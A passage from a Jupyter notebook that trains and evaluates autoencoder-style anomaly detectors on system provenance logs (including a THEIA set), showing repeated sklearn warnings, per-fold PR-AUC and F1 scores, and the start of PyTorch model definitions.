  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 2/5 ---
    -> Training Baseline... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 3/5 ---
    -> Training Baseline... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 4/5 ---
    -> Training Baseline... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 5/5 ---
    -> Training Baseline... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... Done. PR-AUC: 0.0 | F1: 0.0

Processing: THEIA - ProcessAll
  Total Normal Logs: 279269 | Total Anomaly Logs: 100

  --- Fold 1/5 ---
    -> Training Baseline... Done. PR-AUC: 0.913 | F1: 0.2545
    -> Training Sparse... Done. PR-AUC: 0.0148 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.5395 | F1: 0.7052
    -> Training DAE... Done. PR-AUC: 0.24 | F1: 0.2496
    -> Training VAE... Done. PR-AUC: 0.0142 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.014 | F1: 0.0
    -> Training GMVAE... Done. PR-AUC: 0.902 | F1: 0.2568
    -> Training Attention AE... Done. PR-AUC: 0.0146 | F1: 0.0
    -> Training LSTMAE... Done. PR-AUC: 0.9241 | F1: 0.2558
    -> Training Robust... Done. PR-AUC: 0.9143 | F1: 0.2598
    -> Training Contractive... Done. PR-AUC: 0.0147 | F1: 0.0

  --- Fold 2/5 ---
    -> Training Baseline... Done. PR-AUC: 0.8436 | F1: 0.2548
    -> Training Sparse... Done. PR-AUC: 0.0146 | F1: 0.0
    -> Training D

In [7]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "contriever" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] facebook/contriever uses 768 dimensions
INPUT_DIM = 768 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
